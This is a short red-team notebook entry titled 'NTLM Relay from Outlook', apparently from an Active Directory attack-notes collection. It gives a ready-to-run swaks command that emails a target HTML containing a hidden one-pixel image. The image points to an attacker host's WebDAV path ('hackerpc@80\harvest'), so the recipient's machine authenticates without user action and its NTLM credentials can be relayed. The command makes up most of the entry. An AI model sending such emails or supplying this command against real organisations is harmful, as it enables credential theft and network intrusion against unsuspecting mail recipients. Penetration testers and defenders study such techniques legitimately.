 ```yaml
---
title: NTLM Relay from Outlook
---
```


Send an email that functions as [[notes/ad/ntlm-relay-source]] and coerces the recipient to authenticate [[notes/ad/ntlm-relay-from-smb|over SMB]] or [[notes/ad/ntlm-relay-from-webdav|over WebDAV]] without further user interaction.
This only works if you have an [[notes/ad/intranet-zone|intranet-zoned]] host.

~~~ bash
swaks -s mx01.corp.com -p 25 -f hacker@corp.com -t john.doe@corp.com --header 'Subject: Test' --add-header 'MIME-Version: 1.0' --add-header 'Content-Type: text/html' --body '<img src="\\hackerpc@80\harvest\test.png" height="1" width="1"/>'
~~~

References:

- [Force NTLM Privileged Authentication](http://web.archive.org/web/20230512185516/https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/printers-spooler-service-abuse#via-email)
